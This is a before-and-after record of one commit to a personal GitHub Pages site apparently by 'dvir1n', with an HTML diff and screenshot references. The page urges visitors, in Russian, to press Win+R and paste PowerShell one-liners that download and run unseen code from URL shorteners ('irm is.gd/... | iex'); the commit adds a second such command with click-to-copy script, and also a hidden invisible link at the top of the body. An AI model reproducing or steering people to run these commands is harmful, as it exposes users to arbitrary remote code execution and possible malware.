

Before and after one commit to dvir1n-archive/dvir1n-archive.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 1483-2283 px from the top of the page. Before the commit the page ends 2164 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -155,7 +155,7 @@
     }
   </style>
 </head>
-<body>
+<body><a href="https://nekoweb.org/cdn-cgi/content?id=jI60bf.zlRq3IQqDV1ydxDtgsDJPD5lDu.MqYCAp4yI-1778325554.7788541-1.0.1.1-FfeoEDC7yEaBXJY8CPQ4lYIc6qYQwwO65dOV2qzEgAM" aria-hidden="true" rel="nofollow noopener" style="display: none !important; visibility: hidden !important"></a>
 
 <div class="container">
   <h1>Сайт dvir1n</h1>
@@ -202,10 +202,13 @@
   <div class="links-section">
     <h3>Мои хацкер проекты 01010101 линукс страфна</h3>
     <p>Привет, это...<br>Раскрой секрет (Win + R):</p>
-    <div class="terminal-box" onclick="copyToClipboard()">
-      <input type="text" value="powershell irm is.gd/n4v4lny | iex" class="cmd-input" id="psCommand" readonly title="Нажми, чтобы скопировать">
+    <div class="terminal-box" onclick="copyCmd(this)">
+      <input type="text" value="powershell irm is.gd/n4v4lny | iex" class="cmd-input" readonly title="Нажми, чтобы скопировать">
     </div>
-    <p><small id="copyStatus" style="color: green; display: none;">Скопировано!</small></p>
+    <p>Генка из Win+R:</p>
+    <div class="terminal-box" onclick="copyCmd(this)">
+      <input type="text" value="powershell irm is.gd/genkaol | iex" class="cmd-input" readonly title="Нажми, чтобы скопировать">
+    </div>
   </div>
 
   <div class="mirrors-section">
@@ -233,15 +236,13 @@
     papus.style.transform = 'scale(1.1)';
     setTimeout(() => papus.style.transform = 'scale(1)', 150);
   });
-
-  function copyToClipboard() {
-    const copyText = document.getElementById("psCommand");
-    copyText.select();
-    navigator.clipboard.writeText(copyText.value);
-
-    const status = document.getElementById("copyStatus");
-    status.style.display = "block";
-    setTimeout(() => status.style.display = "none", 2000);
+  function copyCmd(element) {
+    const input = element.querySelector('input');
+    input.select();
+    navigator.clipboard.writeText(input.value);
+    const originalColor = element.style.borderColor;
+    element.style.borderColor = "#76ff03";
+    setTimeout(() => element.style.borderColor = originalColor, 500);
   }
 </script>
 
```
